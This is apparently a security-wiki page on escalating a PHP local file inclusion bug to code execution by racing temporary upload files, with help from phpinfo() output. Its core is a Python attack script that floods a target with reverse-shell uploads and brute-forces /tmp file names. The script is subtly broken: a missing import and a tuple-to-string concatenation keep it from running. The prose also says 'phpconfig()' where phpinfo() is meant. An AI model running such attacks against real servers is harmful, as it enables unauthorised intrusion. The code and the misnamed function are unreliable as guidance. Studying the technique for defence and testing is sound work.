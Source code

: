 {% file src="../.gitbook/assets/lfi-with-phpinfo-assistance.pdf" %}

#### Theory 

If uploads are allowed in PHP and you try to upload a file, this files is stored in a temporal directory until the server has finished processing the request, then this temporary files is deleted.

Then, if have found a LFI vulnerability in the web server you can try to guess the name of the temporary file created and exploit a RCE accessing the temporary file before it is deleted.

In **Windows** the files are usually stored in  **C:\Windows\temp\php&lt;&lt;**

In **linux** the name of the file use to be **random** and located in **/tmp**. As the name is random, it is needed to **extract from somewhere the name of the temporal file** and access it before it is deleted. This can be done reading the value of the **variable $\_FILES** inside the content of the function "**phpconfig\(\)**".

**phpinfo\(\)**

**PHP** uses a buffer of **4096B** and when it is **full**, it is **send to the client**. Then the client can **send** **a lot of big requests** \(using big headers\) **uploading a php** reverse **shell**, wait for the **first part of the phpinfo\(\) to be returned** \(where the name of the temporary file is\) and try to **access the temp file** before the php server deletes the file exploiting a LFI vulnerability.

**Python script to try to bruteforce the name \(if length = 6\)**

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

### References

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)  
[PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal/Intruders](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal/Intruders)  


{% file src="../.gitbook/assets/en-local-file-inclusion-1.pdf" %}

